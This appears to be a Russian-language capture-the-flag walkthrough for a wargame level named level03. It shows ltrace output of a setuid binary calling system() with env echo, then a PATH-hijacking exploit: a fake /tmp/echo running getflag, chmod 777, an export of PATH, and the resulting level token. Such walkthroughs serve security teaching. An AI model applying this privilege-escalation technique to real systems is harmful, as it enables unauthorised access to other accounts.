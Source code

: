 1. В директории видим исполнительный файл level03
2. При попытке его запуска выводится текст "Exploit me". Это наводит на мысль что для перехода на flag03/level03 нужно воспользоваться какой-то узвимостью этого исполнительного файла
3. С помощью команды ltrace проверяем, какие системные вызовы делает исполняемый файл:

__libc_start_main(0x80484a4, 1, 0xbffff6e4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                = 2003
geteuid()                                                = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)      = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)      = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                   = 0
+++ exited (status 0) +++

4. По выводу выше можно судить, что очевидное уязвимое место - вызов команды echo, куда можно с помощью обратных кавычек передать команду на исполнение чего-либо. Однако воспользоваться этим будет затруднительно, так как необходимо будет поменять содержимое бинарного файла. Другой вариант эксплойта - подменить содержимое команды echo.
5. В папке /tmp создаем файл под названием echo, внутрь записываем getflag
6. Даем права на исполнение файлу: chmod 777 /tmp/echo
7. Добавляем в переменную окружение PATH путь к нашему поддельному echo
export PATH=/tmp:$PATH
8. Выполнение исполнительного файла дает токен: qi0maab88jeaj46qoumi7maus
9. Данный токен подошел к юзеру level04
